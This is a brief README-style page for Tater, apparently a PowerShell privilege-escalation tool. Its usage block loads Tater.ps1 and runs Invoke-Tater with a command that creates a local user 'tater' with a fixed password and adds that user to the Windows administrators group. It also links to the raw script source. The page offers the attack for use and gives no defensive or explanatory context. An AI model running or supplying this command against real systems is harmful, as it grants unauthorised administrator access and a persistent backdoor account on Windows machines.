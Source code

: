 # Name
Tater

## Usage
```
 . ./Tater.ps1
 Invoke-Tater -Trigger 1 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"
```

## Source
https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1

